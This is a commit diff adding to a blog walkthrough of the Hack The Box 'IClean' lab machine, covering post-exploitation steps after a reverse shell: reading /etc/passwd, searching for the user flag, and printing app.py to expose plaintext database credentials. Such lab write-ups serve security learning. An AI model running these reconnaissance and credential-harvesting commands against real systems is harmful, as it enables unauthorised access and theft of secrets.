

Before and after one commit to Jean2208/MyWebsite, a Jekyll site: the page built from _posts/2024-18-05-iclean-htb.md, in a window 1280 px wide and 1400 px high, scrolled down 11896 px. Shown: the whole window, without its empty margins (268-1011 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 12526 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
docs: add content to IClean article

```diff
--- a/_posts/2024-18-05-iclean-htb.md
+++ b/_posts/2024-18-05-iclean-htb.md
@@ -302,6 +302,85 @@ Finally, change the code to read our script with curl and then pipe the output t
 
 After sending the payload, we get the reverse shell.
 
+Let's look for the user.txt flag.
+
+<div class="article-code">
+{% highlight sh %}
+www-data@iclean:/opt/app$ find / -name user.txt 2>/dev/null
+{% endhighlight %}
+</div>
+
+After using the command to try and find the user.txt flag across all directories and redirect stderr to `/dev/null` we get no results.
+
+This means we have to find the owner user of the user.txt flag. Let's take a look at the `/etc/passwd` file.
+
+<div class="article-code">
+{% highlight sh %}
+www-data@iclean:/opt/app$ cat /etc/passwd
+...
+geoclue:x:115:121::/var/lib/geoclue:/usr/sbin/nologin
+mysql:x:116:122:MySQL Server,,,:/nonexistent:/bin/false
+_laurel:x:998:998::/var/log/laurel:/bin/false
+{% endhighlight %}
+</div>
+
+We don't have any user accounts, but the presence of the MySQL service makes me remember that the website had login functionality. The db connection string secrects have to be stored either in enviroment tables or in the application python file itself.
+
+If we `ls` the current directory and read the `app.py` file, the db configurations are stored inside in plaintext.
+
+<div class="article-code">
+{% highlight sh %}
+www-data@iclean:/opt/app$ ls
+ls
+app.py
+blank.pdf
+static
+templates
+www-data@iclean:/opt/app$ head -n 50 app.py
+head -n 50 app.py
+from flask import Flask, render_template, request, jsonify, make_response, session, redirect, url_for
+from flask import render_template_string
+import pymysql
+import hashlib
+import os
+import random, string
+import pyqrcode
+from jinja2 import StrictUndefined
+from io import BytesIO
+import re, requests, base64
+
+app = Flask(__name__)
+
+app.config['SESSION_COOKIE_HTTPONLY'] = False
+
+secret_key = ''.join(random.choice(string.ascii_lowercase) for i in range(64))
+app.secret_key = secret_key
+# Database Configuration
+db_config = {
+    'host': '127.0.0.1',
+    'user': 'iclean',
+    'password': 'pxCsmnGLckUb',
+    'database': 'capiclean'
+}
+{% endhighlight %}
+</div>
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
 
 [PortSwigger]: https://portswigger.net/support/using-sql-injection-to-bypass-authentication
 
```
